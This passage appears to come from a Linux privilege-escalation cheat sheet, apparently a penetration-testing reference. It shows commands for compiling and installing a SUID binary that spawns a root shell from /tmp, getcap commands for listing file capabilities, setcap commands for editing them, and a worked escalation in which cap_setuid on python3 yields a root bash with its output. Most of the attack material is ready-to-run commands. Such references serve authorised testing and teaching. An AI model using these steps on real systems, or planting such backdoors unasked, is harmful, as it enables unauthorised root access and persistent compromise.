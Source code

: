 ### Create a SUID binary

```bash
$print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
$gcc -o /tmp/suid /tmp/suid.c  
$sudo chmod +x /tmp/suid # execute right
$sudo chmod +s /tmp/suid # setuid bit
```



## Capabilities
### List capabilities of binaries 
```bash
getcap -r / 2>/dev/null
```
```bash  
$ /usr/bin/getcap -r  /usr/bin
/usr/bin/fping                = cap_net_raw+ep
/usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/rlogin               = cap_net_bind_service+ep
/usr/bin/ping                 = cap_net_raw+ep
/usr/bin/rsh                  = cap_net_bind_service+ep
/usr/bin/rcp                  = cap_net_bind_service+ep
```

### Edit capabilities

```powershell
/usr/bin/setcap -r /bin/ping            # remove
/usr/bin/setcap cap_net_raw+p /bin/ping # add
```

### Interesting capabilities

Having the capability =ep means the binary has all the capabilities.
```powershell
$ getcap openssl /usr/bin/openssl 
openssl=ep
```

Alternatively the following capabilities can be used in order to upgrade your current privileges.

```powershell
cap_dac_read_search # read anything
cap_setuid+ep # setuid
```

Privilege escalation with `cap_setuid+ep` and `python`
```powershell
$ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python3

$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
$ id
uid=0(root) gid=1000(swissky)
```
